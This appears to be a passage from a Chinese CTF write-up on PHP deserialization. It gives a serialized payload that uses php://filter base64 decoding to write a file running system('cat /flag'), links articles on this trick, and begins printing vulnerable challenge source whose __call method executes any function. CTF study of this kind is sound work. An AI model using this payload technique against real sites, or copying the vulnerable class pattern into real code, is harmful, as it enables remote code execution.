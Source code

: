 payload：code=O:5:"Start":1:{s:7:"barking";O:3:"CTF":2:{s:5:"part1";s:58:"php://filter/write=convert.base64-decode/resource=flag.php";s:5:"part2";s:54:"abPD9waHAgZXZhbCgnc3lzdGVtKCJjYXQgL2ZsYWciKTsnKTs/Pg==";}}

 打开/flag.php即可得到flag

参考文章：

[file_put_contents利用技巧(php://filter协议） - yokan - 博客园 (cnblogs.com)](https://www.cnblogs.com/yokan/p/12650702.html)

[-------已搬运------php://filter 绕过死亡file_put_content() base64 的编码小trick_死亡绕过-CSDN博客](https://blog.csdn.net/Zero_Adam/article/details/116170568)



## 2.无回显反序列化

```php
<?php

error_reporting(0);

highlight_file(__FILE__);

class GGbond{

  public $candy;

  public function __call($func,$arg){

​    $func($arg);

  }

  public function __toString(){

​    return $this->candy->str;

  }

}

class unser{

  public $obj;

  public $auth;

  public function __construct($obj,$name){

​    $this->obj = $obj;

​    $this->obj->auth = $name;

  }

  public function __destruct(){

​    $this->obj->Welcome();

  }

}

class ZYPC{
```